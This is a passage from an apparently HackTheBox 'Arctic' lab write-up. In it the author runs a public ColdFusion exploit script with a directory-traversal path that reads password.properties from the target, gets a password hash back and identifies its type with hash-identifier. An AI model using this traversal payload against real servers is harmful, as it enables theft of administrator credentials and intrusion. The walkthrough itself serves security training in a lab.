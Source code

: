 I just use the example code to see what we can get.

```
usage: 14641.py <host> <port> <file_path>
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed
kali@kali:~/htb/Arctic$ python 14641.py 10.129.49.137 8500 ../../../../../../../lib/password.properties
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

So we got an encrypted password. When browsing earlier, I found the docs for Coldfusion. So I go through those to see if I can find some more information.

`http://10.129.49.137:8500/cfdocs/htmldocs/help.html`

It takes so incredibly long to load. So I throw the encrypted password into hash-Identifier.

```
kali@kali:~/htb/Arctic$ hash-identifier 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))

Least Possible Hashs:
[+] Tiger-160
[+] Haval-160
[+] RipeMD-160
[+] SHA-1(HMAC)
[+] Tiger-160(HMAC)
[+] RipeMD-160(HMAC)
[+] Haval-160(HMAC)
[+] SHA-1(MaNGOS)
[+] SHA-1(MaNGOS2)
[+] sha1($pass.$salt)
[+] sha1($salt.$pass)
[+] sha1($salt.md5($pass))
[+] sha1($salt.md5($pass).$salt)
[+] sha1($salt.sha1($pass))
[+] sha1($salt.sha1($salt.sha1($pass)))
[+] sha1($username.$pass)
[+] sha1($username.$pass.$salt)
[+] sha1(md5($pass))
[+] sha1(md5($pass).$salt)
[+] sha1(md5(sha1($pass)))
```